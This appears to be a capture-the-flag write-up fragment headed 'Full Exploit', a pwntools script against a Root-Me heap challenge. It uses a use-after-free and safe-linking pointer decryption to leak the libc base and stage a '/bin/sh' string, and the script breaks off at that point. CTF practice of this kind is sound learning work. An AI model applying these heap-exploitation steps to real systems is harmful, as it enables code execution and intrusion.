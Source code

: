 # Full Exploit
```python
#!/usr/bin/env python3
from pwn import *
context.update(os="linux", arch = "amd64", log_level="debug")
exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")
context.binary = exe
#p = process("./chall_patched")
p = remote("challenge03.root-me.org", 56589)
def alpha(heap, target):
    return target ^ (heap >> 0xc)

def x(): gdb.attach(p)
def sl(choice): p.sendlineafter(b"Choice?\n", str(choice))
def add(idx,size,content:bytes):
    sl(1)
    p.sendlineafter("Index:", str(idx))
    p.sendlineafter("Size:", str(size))
    p.sendafter("Data:", content)

def free(idx):
    sl(2)
    p.sendlineafter("Index:", str(idx))

def edit(idx,content:bytes):
    sl(3)
    p.sendlineafter("Index:", str(idx))
    p.sendafter("Data:", content)
def show(idx):
    sl(4)
    p.sendlineafter("Index:", str(idx))

def freeze(idx):
    sl(5)
    p.sendlineafter("Index:", str(idx))

def decrypt(cipher):
    key = 0
    for i in range(1, 6):
        bits = 64 - 12 * i
        if bits < 0:
            bits = 0
        plain = ((cipher ^ key) >> bits) << bits
        key = plain >> 12
    return plain

def main():
    add(0, 0x428, b"A"*8)
    add(1 ,0x18, b"B"*8)
    freeze(0)
    free(0)
    add(2, 0x438, b"E" * 8)
    show(0)
    print(p.recvline())
    print(p.recvline())
    libc_base = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) - 0x1e3ff0
    print(hex(libc_base))
    add(3, 0x20, b"X" * 8)
    add(4, 0x20, b"Z" * 8)
    add(5, 0x18, b"/bin/sh\x00")
```